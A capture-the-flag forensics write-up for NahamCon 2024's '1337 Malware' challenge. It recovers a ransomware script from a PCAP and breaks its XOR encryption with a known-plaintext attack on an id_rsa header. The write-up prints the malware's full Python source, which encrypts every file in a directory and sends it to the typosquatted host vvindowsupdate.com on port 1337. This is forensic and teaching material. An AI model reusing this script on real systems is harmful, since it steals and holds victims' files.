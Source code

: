 # 1337 Malware - NahamCon CTF 2024

 ## Challenge Description

 ```We received a plea for help from a rather frustrated looking employee. He said he accidently ran malware on his computer, but when he tried to pay the "leet hacker" to get his files back they said the malware was "broken"... best IT could do was provide us a PCAP.```

## Enumeration

We are given a PCAP file that will contain all the information needed to solve the challenge. Let's open it up in Wireshark.

![](./Attachments/wireshark.png)

Quickly looking through the capture, we have a majority of general TCP traffic as well as two HTTP packets. Let's looks closer at the HTTP request and see if there's anything interesting.

![](./Attachments/ransrequest.png)

We see a GET request to `vvindowsupdate.com/rans.py` - looks like the attacker has typosquatted the windowsupdate domain hoping to trick an unsuspecting user into navigating to their domain instead. `rans.py` is interesting so let's see if the response contains the script.

![](./Attachments/ransresponse.png)

Yes! We have the script used to exploit this user in plain text. Let's take a closer look at the payload.

```python
import socket
import base64
import os
from random import randbytes
from pwn import xor

# DON'T FORGET TO CHANGE THIS TO THE REAL KEY!!!!
key = randbytes(32)
```

The script starts of by importing the modules it needs to function, followed by a key declaration and a comment. It looks like the attacker didn't take his own advice and generated the key using a random 32 byte value. This is probably why the attacker believe his malware to be "broken".

We'll remember this for later and move on to the rest of the script.

```python
def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()
   
    encrypted = xor(data, key)
    return encrypted

def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()

def get_all_files():
    file_paths = []
    for root, dirs, files in os.walk(os.path.dirname(os.path.realpath(__file__))):
        for file in files:
            file_paths.append(os.path.join(root, file))
    file_paths.remove(__file__)      
    return file_paths
```

Here we have the three functions defined by the attacker to get the files in the current directory, encrypt them, and then send the encrypted version of the files back to his domain over port 1337.

Finally, the script executes these functions.

```python
files = get_all_files()
for f in files:
    send_encrypted(f)
    #os.remove(f)
```

It appears as though the intention of the attacker was to encrypt and exfiltrate the users files, and then remove the files from the victim's computer, however `os.remove` is commented out.

`get_all_files()` isn't all that interesting, so let's skip that and look closer at `send_encrypted()`.

```python
def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()
```

The attacker was nice enough to name the files as they were exfiltrated by sending the filename to his server, which can be picked up through the network traffic.

To confirm, let's take another look at the PCAP.

![](./Attachments/filename.png)

Yep, they leaked the filenames over the network. We can use this to our advantage later.

The encrypt function is going to be the most interesting for us, so let's take a closer look there.

```python
def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()
   
    encrypted = xor(data, key)
    return encrypted
```

We can see that the only form of "encryption" in use is an XOR function, which takes the plaintext of the files and XORs each byte with the key. It will be very important to find the key as this will be the only way we are able to recover the encrypted files.

This is where the fact that file names are leaked comes in handy. If we look further at the files that were exfiltrated, we have this list:

- resources.zip
- ecorp.png
- Welcome Aboard.pdf
- id_rsa
- id_rsa.pub

Before we continue, let's talk quickly about XOR and it's viability in ciphertext generation. XOR by itself is not considered cryptographically secure. The exclusive or function is associative and commutative, which means that the order of input values and how they are grouped does not affect the final output. Also, XOR has a unique property that makes it possible to inverse input and output, called self-inversion. This is especially useful in cryptanalysis because it means that if you have the ciphertext and some corresponding plaintext, you can derive the key that was used to turn plaintext into ciphertext.

This is known as a known-plaintext attack (KPA). More information can be found [here](https://blog.nviso.eu/2023/10/12/xor-known-plaintext-attacks/).

Knowing this about the malware at hand, we know that if we had the plaintext of any of the encrypted files, we could easily derive the key using the XOR function itself.

It might seem like we don't have the plaintext, but we can make a few assumptions about the files that were exfiltrated.

The file formats for .zip, .png, and .pdf all use some form of "magic bytes", or the first few bytes of the file that indicate in what format the data is stored.

- .zip - `0x50 0x4B 0x03 0x04`
- .png - `0x89 0x50 0x4E 0x47 0x0D 0x0A 0x1A 0x0A`
- .pdf - `0x25 0x50 0x44 0x46`

Theoretically we could use these byte strings to derive the strings, but remember that we know the key is 32 bytes in length, so these values would only be able to recover the partial key.

That leaves us `id_rsa` and `id_rsa.pub`. Luckily, we know that id_rsa has a standard format. We can generate an openssh private key using `ssh-keygen` to confirm, but we know that every openssh private key starts with this string: `-----BEGIN OPENSSH PRIVATE KEY-----`.

Yes! This string is 36 characters in length which means it is greater than 32 bytes. We should be able to recover the key with this value.

First, we'll write a script that recovers the key using the ciphertext of the id_rsa file recovered the PCAP and the known plaintext.

```python
from pwn import xor
import os

def recover_key():
    ciphertext = bytes.fromhex("afef7e7da6970900eeab4da38833...b5f55b98fb892d")

    known_plaintext = "-----BEGIN OPENSSH PRIVATE KEY-----".encode()

    blob = xor(ciphertext, known_plaintext)
    key = blob[:32]
    return key
```

This function XORs the ciphertext and known-plaintext and returns a blob of data, from which we can grab the first 32 bytes. This is the key that was used to encrypt the victim's files!

From there, we can write a script that iterates through the encrypted files downloaded from wireshark and decrypts them all.

```python
def decrypt(ciphertext, key):
    plaintext = xor(ciphertext, key)
    return plaintext

directory = "/home/astra/nahamconctf/forensics/1337malware"
for file in os.listdir(directory):
    if file.endswith('.enc'):
        with open(os.path.join(directory, file)) as f:
            ciphertext = bytes.fromhex(f.read())
            plaintext = decrypt(ciphertext, key)
            b = open(os.path.join(directory, file).strip(".enc"), "wb")
            b.write(plaintext)
```

Now that we have all the files decrypted, we can sift through them for any important information (like the flag!).

Resources.zip is interesting, let's try and unzip it:

![](./Attachments/resourcezip.png)

It's password protected. Let's see if we can find the password somewhere. Let's look at `Welcome Aboard.pdf` next.

![](./Attachments/welcomeaboard.png)

And we've got the password for the zip! All that's left to do is unzip `resources.zip` and get the flag!